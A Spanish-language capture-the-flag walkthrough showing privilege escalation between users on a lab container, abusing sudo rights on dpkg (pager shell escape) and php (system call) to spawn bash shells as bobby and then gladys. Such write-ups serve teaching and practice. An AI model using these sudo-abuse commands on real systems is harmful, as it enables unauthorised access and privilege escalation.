 ## Escalate user bobby

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for freddy on afd32de0f5cd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User freddy may run the following commands on afd32de0f5cd:
    (bobby) NOPASSWD: /usr/bin/dpkg
```

Vemos que podemos ejecutar el binario `dpkg` como el usuario `bobby`, por lo que haremos lo siguiente:

```shell
sudo -u bobby dpkg -l
!/bin/bash
```

Info:

```
bobby@afd32de0f5cd:/home/freddy$ whoami
bobby
```

Veremos que somos dicho usuario.

## Escalate user gladys

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for bobby on afd32de0f5cd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bobby may run the following commands on afd32de0f5cd:
    (gladys) NOPASSWD: /usr/bin/php
```

Vemos que podemos ejecutar el binario `php` como el usuario `gladys`, por lo que haremos lo siguiente:

```shell
CMD="/bin/bash"
sudo -u gladys php -r "system('$CMD');"
```

Info:

```
gladys@afd32de0f5cd:/home/freddy$ whoami
gladys
```
